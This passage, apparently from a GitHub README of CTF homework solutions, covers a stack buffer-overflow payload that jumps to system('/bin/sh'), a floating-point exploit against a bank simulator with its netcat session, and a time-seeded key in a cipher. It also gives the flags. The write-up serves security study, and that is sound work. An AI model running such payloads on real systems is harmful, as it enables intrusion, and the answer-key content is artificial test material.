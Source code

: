   Call `system('/bin/sh')` when fulfill certain requirements. Instead of trying to fulfill the requirements, jump pass it. Therefore, the *target address* should be `0x401195`(`0x4011a1` can also achieve our goal).

4. Combine all the steps.  
   `payload = 'a' * (0x10 + 8) + p64(0x401195)` send it through script to get shell and the flag.

## Misc - The Floating Aquamarine
> FLAG{floating_point_error_https://0.30000000000000004.com/}  
> [solution](./misc/solve.py)  

From [src.cpp](./hw0/../misc/src.cpp), find that variable `PRICE, RICH, balance` are `float`. Therefore, the vulnerability may be due the precision of floating point. By buying a large amount and spliting to little portion for selling, one can possibly gain money as demonstrated below. Finally, by repeat it multiple times, we are able to make `balance` larger than `RICH`.
```shell
$ nc hw00.zoolab.org 65535
Welcome to Aquamarine bank! You can buy/loan and sell Aquamarine here.
The price of Aquamarine is fixed at 88.88 dollars. No bargaining!
If your balance >= 3000 dollars, you can get the flag!

Your Aquamarine: 0, balance: 0
How many Aquamarine stones do you want to buy/loan (positive) or sell (negative)?
(Remaining Aquamarine in stock: 100000000)
100000000
Your Aquamarine: 100000000, balance: -8.888e+09
How many Aquamarine stones do you want to buy/loan (positive) or sell (negative)?
(Remaining Aquamarine in stock: 0)
-3000000
Your Aquamarine: 97000000, balance: -8.62136e+09
How many Aquamarine stones do you want to buy/loan (positive) or sell (negative)?
(Remaining Aquamarine in stock: 3000000)
-97000000
Your Aquamarine: 0, balance: 1024
How many Aquamarine stones do you want to buy/loan (positive) or sell (negative)?
(Remaining Aquamarine in stock: 100000000)
```


## Cryptography - 解密一下
> FLAG{4lq7mWGh93}  
> [solution](./crypto/solve.py)

1. Modify source code to make it easier to read, from [encrypt.py](./crypto/encrypt.py) to [modifiedEncrypt.py](./crypto/modifiedEncrypt.py).
2. Use `time.time()` as seed for random. Therefore, by guessing around what time the [output.txt](./crypto/output.txt) is generated, the key possibility of key can be redused.
   ```python
   random.seed(int(time.time()))
   key = random.getrandbits(128).to_bytes(16, 'big')
   ```
3. Implement `decrypt` function for the corresponding `encrypt`.
   - `_encrypt`
      ```python
      def _encrypt(pts: _list[int], key: _list[int]):
         count, delta, mask = 0, 0xFACEB00C, 0xffffffff
         for _ in range(32):
            count = count + delta & mask    # delta & mask = 0xfaceb00c = 4207849484
            pts[0] = pts[0] + ((pts[1] << 4) + key[0] & mask ^ (pts[1] + count) & mask ^ (pts[1] >> 5) + key[1] & mask) & mask
            pts[1] = pts[1] + ((pts[0] << 4) + key[2] & mask ^ (pts[0] + count) & mask ^ (pts[0] >> 5) + key[3] & mask) & mask
         return pts
      ```